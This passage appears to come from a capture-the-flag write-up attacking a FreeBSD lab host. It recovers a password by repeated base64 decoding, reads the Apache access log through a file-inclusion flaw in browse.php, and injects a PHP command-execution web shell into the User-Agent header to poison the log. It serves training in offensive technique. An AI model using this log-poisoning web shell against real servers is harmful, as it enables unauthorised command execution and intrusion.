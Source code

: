       Simply decoding this 13 times using Python produces a password for the user `charix` which was `Charix!2#4%6&8(0`

      ```python
      # pw_decode.py
      from base64 import b64decode
      str='Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV<SNIPPED> Ukd4RVdub3dPVU5uUFQwSwo='
      
      for i in range(13):
          str=b64decode(str)
      
      print str
      ```

   2. The second path was to use the LFI to inject some PHP code to run commands, then use that code to create a reverse shell back to Kali Linux, which is explained in the steps going forward.

3. This page also exposed a php info script at http://10.10.10.84/phpinfo.php, which I used to discover this was a FreeBSD system.  It showed PHP was using the default log path, which for FreeBSD Apache Linux is `/var/log/httpd-access.log`.  I verified I was able to view this file: `view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log`
   ![image-20201105114338056](.Report.assets/image-20201105114338056.png)

4. I next injected the following PHP code into the access log, preceded by a marker for me to find it easily, by injecting it into the User Agent string using Burpsuite's repeater.

   ```php
   ****COYOTE_LOG**** <?php echo shell_exec($_GET['cmd']);?>
   ```

   ![image-20201105115826550](.Report.assets/image-20201105115826550.png)
   In order to verify this code was inserted properly, I loaded the page as base64 and decoded it to see the PHP code was successfully inject.